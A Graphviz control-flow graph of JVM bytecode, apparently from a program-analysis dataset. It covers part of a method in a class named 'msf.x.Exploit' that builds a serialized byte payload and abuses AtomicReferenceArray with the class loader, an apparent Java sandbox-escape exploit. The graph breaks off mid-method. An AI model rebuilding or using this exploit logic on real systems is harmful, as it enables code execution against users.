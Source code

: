 digraph "" {
    "r0 := @this: msf.x.Exploit"
    "push 179"
    "r0 := @this: msf.x.Exploit"->"push 179";
    "newarray"
    "push 179"->"newarray";
    "store.r r6"
    "newarray"->"store.r r6";
    "load.r r6"
    "store.r r6"->"load.r r6";
    "push 0"
    "load.r r6"->"push 0";
    "push -84"
    "push 0"->"push -84";
    "arraywrite.b"
    "push -84"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 1"
    "load.r r6"->"push 1";
    "push -19"
    "push 1"->"push -19";
    "push -19"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 2"
    "load.r r6"->"push 2";
    "push 2"->"push 0";
    "push 0"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 3"
    "load.r r6"->"push 3";
    "push 5"
    "push 3"->"push 5";
    "push 5"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 4"
    "load.r r6"->"push 4";
    "push 117"
    "push 4"->"push 117";
    "push 117"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 5";
    "push 114"
    "push 5"->"push 114";
    "push 114"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 6"
    "load.r r6"->"push 6";
    "push 6"->"push 0";
    "push 0"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 7"
    "load.r r6"->"push 7";
    "push 19"
    "push 7"->"push 19";
    "push 19"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 8"
    "load.r r6"->"push 8";
    "push 91"
    "push 8"->"push 91";
    "push 91"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 9"
    "load.r r6"->"push 9";
    "push 76"
    "push 9"->"push 76";
    "push 76"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 10"
    "load.r r6"->"push 10";
    "push 106"
    "push 10"->"push 106";
    "push 106"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 11"
    "load.r r6"->"push 11";
    "push 97"
    "push 11"->"push 97";
    "push 97"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 12"
    "load.r r6"->"push 12";
    "push 118"
    "push 12"->"push 118";
    "push 118"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 13"
    "load.r r6"->"push 13";
    "push 13"->"push 97";
    "push 97"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 14"
    "load.r r6"->"push 14";
    "push 46"
    "push 14"->"push 46";
    "push 46"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 15"
    "load.r r6"->"push 15";
    "push 108"
    "push 15"->"push 108";
    "push 108"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 16"
    "load.r r6"->"push 16";
    "push 16"->"push 97";
    "push 97"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 17"
    "load.r r6"->"push 17";
    "push 110"
    "push 17"->"push 110";
    "push 110"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 18"
    "load.r r6"->"push 18";
    "push 103"
    "push 18"->"push 103";
    "push 103"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 19";
    "push 19"->"push 46";
    "push 46"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 20"
    "load.r r6"->"push 20";
    "push 79"
    "push 20"->"push 79";
    "push 79"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 21"
    "load.r r6"->"push 21";
    "push 98"
    "push 21"->"push 98";
    "push 98"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 22"
    "load.r r6"->"push 22";
    "push 22"->"push 106";
    "push 106"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 23"
    "load.r r6"->"push 23";
    "push 101"
    "push 23"->"push 101";
    "push 101"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 24"
    "load.r r6"->"push 24";
    "push 99"
    "push 24"->"push 99";
    "push 99"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 25"
    "load.r r6"->"push 25";
    "push 116"
    "push 25"->"push 116";
    "push 116"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 26"
    "load.r r6"->"push 26";
    "push 59"
    "push 26"->"push 59";
    "push 59"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 27"
    "load.r r6"->"push 27";
    "push -112"
    "push 27"->"push -112";
    "push -112"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 28"
    "load.r r6"->"push 28";
    "push -50"
    "push 28"->"push -50";
    "push -50"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 29"
    "load.r r6"->"push 29";
    "push 88"
    "push 29"->"push 88";
    "push 88"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 30"
    "load.r r6"->"push 30";
    "push -97"
    "push 30"->"push -97";
    "push -97"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 31"
    "load.r r6"->"push 31";
    "push 31"->"push 16";
    "push 16"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 32"
    "load.r r6"->"push 32";
    "push 115"
    "push 32"->"push 115";
    "push 115"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 33"
    "load.r r6"->"push 33";
    "push 41"
    "push 33"->"push 41";
    "push 41"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 34"
    "load.r r6"->"push 34";
    "push 34"->"push 108";
    "push 108"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 35"
    "load.r r6"->"push 35";
    "push 35"->"push 2";
    "push 2"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 36"
    "load.r r6"->"push 36";
    "push 36"->"push 0";
    "push 0"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 37"
    "load.r r6"->"push 37";
    "push 37"->"push 0";
    "push 0"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 38"
    "load.r r6"->"push 38";
    "push 120"
    "push 38"->"push 120";
    "push 120"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 39"
    "load.r r6"->"push 39";
    "push 112"
    "push 39"->"push 112";
    "push 112"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 40"
    "load.r r6"->"push 40";
    "push 40"->"push 0";
    "push 0"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 41";
    "push 41"->"push 0";
    "push 0"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 42"
    "load.r r6"->"push 42";
    "push 42"->"push 0";
    "push 0"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 43"
    "load.r r6"->"push 43";
    "push 43"->"push 2";
    "push 2"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 44"
    "load.r r6"->"push 44";
    "push 44"->"push 117";
    "push 117"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 45"
    "load.r r6"->"push 45";
    "push 45"->"push 114";
    "push 114"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 46";
    "push 46"->"push 0";
    "push 0"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 47"
    "load.r r6"->"push 47";
    "push 47"->"push 13";
    "push 13"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 48"
    "load.r r6"->"push 48";
    "push 48"->"push 91";
    "push 91"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 49"
    "load.r r6"->"push 49";
    "push 49"->"push 76";
    "push 76"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 50"
    "load.r r6"->"push 50";
    "push 109"
    "push 50"->"push 109";
    "push 109"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 51"
    "load.r r6"->"push 51";
    "push 51"->"push 115";
    "push 115"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 52"
    "load.r r6"->"push 52";
    "push 102"
    "push 52"->"push 102";
    "push 102"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 53"
    "load.r r6"->"push 53";
    "push 53"->"push 46";
    "push 46"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 54"
    "load.r r6"->"push 54";
    "push 54"->"push 120";
    "push 120"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 55"
    "load.r r6"->"push 55";
    "push 55"->"push 46";
    "push 46"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 56"
    "load.r r6"->"push 56";
    "push 72"
    "push 56"->"push 72";
    "push 72"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 57"
    "load.r r6"->"push 57";
    "push 57"->"push 101";
    "push 101"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 58"
    "load.r r6"->"push 58";
    "push 58"->"push 108";
    "push 108"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 59";
    "push 59"->"push 112";
    "push 112"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 60"
    "load.r r6"->"push 60";
    "push 60"->"push 59";
    "push 59"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 61"
    "load.r r6"->"push 61";
    "push -2"
    "push 61"->"push -2";
    "push -2"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 62"
    "load.r r6"->"push 62";
    "push 62"->"push 44";
    "push 44"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 63"
    "load.r r6"->"push 63";
    "push -108"
    "push 63"->"push -108";
    "push -108"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 64"
    "load.r r6"->"push 64";
    "push 64"->"push 17";
    "push 17"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 65"
    "load.r r6"->"push 65";
    "push -120"
    "push 65"->"push -120";
    "push -120"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 66"
    "load.r r6"->"push 66";
    "push -74"
    "push 66"->"push -74";
    "push -74"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 67"
    "load.r r6"->"push 67";
    "push -27"
    "push 67"->"push -27";
    "push -27"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 68"
    "load.r r6"->"push 68";
    "push -1"
    "push 68"->"push -1";
    "push -1"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 69"
    "load.r r6"->"push 69";
    "push 69"->"push 2";
    "push 2"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 70"
    "load.r r6"->"push 70";
    "push 70"->"push 0";
    "push 0"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 71"
    "load.r r6"->"push 71";
    "push 71"->"push 0";
    "push 0"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 72";
    "push 72"->"push 120";
    "push 120"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 73"
    "load.r r6"->"push 73";
    "push 73"->"push 112";
    "push 112"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 74"
    "load.r r6"->"push 74";
    "push 74"->"push 0";
    "push 0"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 75"
    "load.r r6"->"push 75";
    "push 75"->"push 0";
    "push 0"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 76";
    "push 76"->"push 0";
    "push 0"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 77"
    "load.r r6"->"push 77";
    "push 77"->"push 1";
    "push 1"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 78"
    "load.r r6"->"push 78";
    "push 78"->"push 112";
    "push 112"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 79";
    "push 79"->"push 115";
    "push 115"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 80"
    "load.r r6"->"push 80";
    "push 80"->"push 114";
    "push 114"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 81"
    "load.r r6"->"push 81";
    "push 81"->"push 0";
    "push 0"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 82"
    "load.r r6"->"push 82";
    "push 82"->"push 48";
    "push 48"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 83"
    "load.r r6"->"push 83";
    "push 83"->"push 106";
    "push 106"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 84"
    "load.r r6"->"push 84";
    "push 84"->"push 97";
    "push 97"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 85"
    "load.r r6"->"push 85";
    "push 85"->"push 118";
    "push 118"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 86"
    "load.r r6"->"push 86";
    "push 86"->"push 97";
    "push 97"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 87"
    "load.r r6"->"push 87";
    "push 87"->"push 46";
    "push 46"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 88";
    "push 88"->"push 117";
    "push 117"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 89"
    "load.r r6"->"push 89";
    "push 89"->"push 116";
    "push 116"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 90"
    "load.r r6"->"push 90";
    "push 105"
    "push 90"->"push 105";
    "push 105"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 91";
    "push 91"->"push 108";
    "push 108"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 92"
    "load.r r6"->"push 92";
    "push 92"->"push 46";
    "push 46"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 93"
    "load.r r6"->"push 93";
    "push 93"->"push 99";
    "push 99"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 94"
    "load.r r6"->"push 94";
    "push 111"
    "push 94"->"push 111";
    "push 111"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 95"
    "load.r r6"->"push 95";
    "push 95"->"push 110";
    "push 110"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 96"
    "load.r r6"->"push 96";
    "push 96"->"push 99";
    "push 99"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 97";
    "push 97"->"push 117";
    "push 117"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 98";
    "push 98"->"push 114";
    "push 114"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 99";
    "push 99"->"push 114";
    "push 114"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 100"
    "load.r r6"->"push 100";
    "push 100"->"push 101";
    "push 101"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 101";
    "push 101"->"push 110";
    "push 110"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 102";
    "push 102"->"push 116";
    "push 116"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 103";
    "push 103"->"push 46";
    "push 46"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 104"
    "load.r r6"->"push 104";
    "push 104"->"push 97";
    "push 97"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 105";
    "push 105"->"push 116";
    "push 116"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 106";
    "push 106"->"push 111";
    "push 111"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 107"
    "load.r r6"->"push 107";
    "push 107"->"push 109";
    "push 109"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 108";
    "push 108"->"push 105";
    "push 105"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 109";
    "push 109"->"push 99";
    "push 99"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 110";
    "push 110"->"push 46";
    "push 46"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 111";
    "push 111"->"push 65";
    "push 65"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 112";
    "push 112"->"push 116";
    "push 116"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 113"
    "load.r r6"->"push 113";
    "push 113"->"push 111";
    "push 111"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 114";
    "push 114"->"push 109";
    "push 109"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 115";
    "push 115"->"push 105";
    "push 105"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 116";
    "push 116"->"push 99";
    "push 99"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 117";
    "push 117"->"push 82";
    "push 82"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 118";
    "push 118"->"push 101";
    "push 101"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 119"
    "load.r r6"->"push 119";
    "push 119"->"push 102";
    "push 102"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "load.r r6"->"push 120";
    "push 120"->"push 101";
    "push 101"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 121"
    "load.r r6"->"push 121";
    "push 121"->"push 114";
    "push 114"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 122"
    "load.r r6"->"push 122";
    "push 122"->"push 101";
    "push 101"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 123"
    "load.r r6"->"push 123";
    "push 123"->"push 110";
    "push 110"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 124"
    "load.r r6"->"push 124";
    "push 124"->"push 99";
    "push 99"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 125"
    "load.r r6"->"push 125";
    "push 125"->"push 101";
    "push 101"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 126"
    "load.r r6"->"push 126";
    "push 126"->"push 65";
    "push 65"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 127"
    "load.r r6"->"push 127";
    "push 127"->"push 114";
    "push 114"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 128"
    "load.r r6"->"push 128";
    "push 128"->"push 114";
    "push 114"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 129"
    "load.r r6"->"push 129";
    "push 129"->"push 97";
    "push 97"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 130"
    "load.r r6"->"push 130";
    "push 130"->"push 121";
    "push 121"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 131"
    "load.r r6"->"push 131";
    "push -87"
    "push 131"->"push -87";
    "push -87"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 132"
    "load.r r6"->"push 132";
    "push -46"
    "push 132"->"push -46";
    "push -46"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 133"
    "load.r r6"->"push 133";
    "push -34"
    "push 133"->"push -34";
    "push -34"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 134"
    "load.r r6"->"push 134";
    "push -95"
    "push 134"->"push -95";
    "push -95"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 135"
    "load.r r6"->"push 135";
    "push -66"
    "push 135"->"push -66";
    "push -66"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 136"
    "load.r r6"->"push 136";
    "push 136"->"push 101";
    "push 101"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 137"
    "load.r r6"->"push 137";
    "push 137"->"push 96";
    "push 96"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 138"
    "load.r r6"->"push 138";
    "push 138"->"push 12";
    "push 12"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 139"
    "load.r r6"->"push 139";
    "push 139"->"push 2";
    "push 2"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 140"
    "load.r r6"->"push 140";
    "push 140"->"push 0";
    "push 0"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 141"
    "load.r r6"->"push 141";
    "push 141"->"push 1";
    "push 1"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 142"
    "load.r r6"->"push 142";
    "push 142"->"push 91";
    "push 91"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 143"
    "load.r r6"->"push 143";
    "push 143"->"push 0";
    "push 0"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 144"
    "load.r r6"->"push 144";
    "push 144"->"push 5";
    "push 5"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 145"
    "load.r r6"->"push 145";
    "push 145"->"push 97";
    "push 97"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 146"
    "load.r r6"->"push 146";
    "push 146"->"push 114";
    "push 114"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 147"
    "load.r r6"->"push 147";
    "push 147"->"push 114";
    "push 114"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 148"
    "load.r r6"->"push 148";
    "push 148"->"push 97";
    "push 97"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 149"
    "load.r r6"->"push 149";
    "push 149"->"push 121";
    "push 121"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 150"
    "load.r r6"->"push 150";
    "push 150"->"push 116";
    "push 116"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 151"
    "load.r r6"->"push 151";
    "push 151"->"push 0";
    "push 0"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 152"
    "load.r r6"->"push 152";
    "push 152"->"push 19";
    "push 19"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 153"
    "load.r r6"->"push 153";
    "push 153"->"push 91";
    "push 91"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 154"
    "load.r r6"->"push 154";
    "push 154"->"push 76";
    "push 76"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 155"
    "load.r r6"->"push 155";
    "push 155"->"push 106";
    "push 106"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 156"
    "load.r r6"->"push 156";
    "push 156"->"push 97";
    "push 97"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 157"
    "load.r r6"->"push 157";
    "push 157"->"push 118";
    "push 118"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 158"
    "load.r r6"->"push 158";
    "push 158"->"push 97";
    "push 97"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 159"
    "load.r r6"->"push 159";
    "push 159"->"push 47";
    "push 47"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 160"
    "load.r r6"->"push 160";
    "push 160"->"push 108";
    "push 108"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 161"
    "load.r r6"->"push 161";
    "push 161"->"push 97";
    "push 97"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 162"
    "load.r r6"->"push 162";
    "push 162"->"push 110";
    "push 110"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 163"
    "load.r r6"->"push 163";
    "push 163"->"push 103";
    "push 103"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 164"
    "load.r r6"->"push 164";
    "push 164"->"push 47";
    "push 47"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 165"
    "load.r r6"->"push 165";
    "push 165"->"push 79";
    "push 79"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 166"
    "load.r r6"->"push 166";
    "push 166"->"push 98";
    "push 98"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 167"
    "load.r r6"->"push 167";
    "push 167"->"push 106";
    "push 106"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 168"
    "load.r r6"->"push 168";
    "push 168"->"push 101";
    "push 101"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 169"
    "load.r r6"->"push 169";
    "push 169"->"push 99";
    "push 99"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 170"
    "load.r r6"->"push 170";
    "push 170"->"push 116";
    "push 116"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 171"
    "load.r r6"->"push 171";
    "push 171"->"push 59";
    "push 59"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 172"
    "load.r r6"->"push 172";
    "push 172"->"push 120";
    "push 120"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 173"
    "load.r r6"->"push 173";
    "push 173"->"push 112";
    "push 112"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 174"
    "load.r r6"->"push 174";
    "push 174"->"push 113";
    "push 113"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 175"
    "load.r r6"->"push 175";
    "push 175"->"push 0";
    "push 0"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 176"
    "load.r r6"->"push 176";
    "push 176"->"push 126";
    "push 126"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 177"
    "load.r r6"->"push 177";
    "push 177"->"push 0";
    "push 0"->"arraywrite.b";
    "arraywrite.b"->"load.r r6";
    "push 178"
    "load.r r6"->"push 178";
    "push 178"->"push 3";
    "push 3"->"arraywrite.b";
    "new java.io.ObjectInputStream"
    "arraywrite.b"->"new java.io.ObjectInputStream";
    "dup1.r"
    "new java.io.ObjectInputStream"->"dup1.r";
    "new java.io.ByteArrayInputStream"
    "dup1.r"->"new java.io.ByteArrayInputStream";
    "new java.io.ByteArrayInputStream"->"dup1.r";
    "dup1.r"->"load.r r6";
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"
    "load.r r6"->"specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"->"specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>";
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"->"virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>";
    "checkcast"
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"->"checkcast";
    "checkcast"->"checkcast";
    "checkcast"->"dup1.r";
    "dup1.r"->"push 0";
    "arrayread.r"
    "push 0"->"arrayread.r";
    "arrayread.r"->"checkcast";
    "checkcast"->"checkcast";
    "store.r r3"
    "checkcast"->"store.r r3";
    "store.r r3"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"checkcast";
    "checkcast"->"push 0";
    "load.r r0"
    "push 0"->"load.r r0";
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"
    "load.r r0"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>"
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>";
    "virtualinvoke <java.util.concurrent.atomic.AtomicReferenceArray: void set(int,java.lang.Object)>"
    "virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>"->"virtualinvoke <java.util.concurrent.atomic.AtomicReferenceArray: void set(int,java.lang.Object)>";
    "load.r r3"
    "virtualinvoke <java.util.concurrent.atomic.AtomicReferenceArray: void set(int,java.lang.Object)>"->"load.r r3";
    "load.r r3"->"push 0";
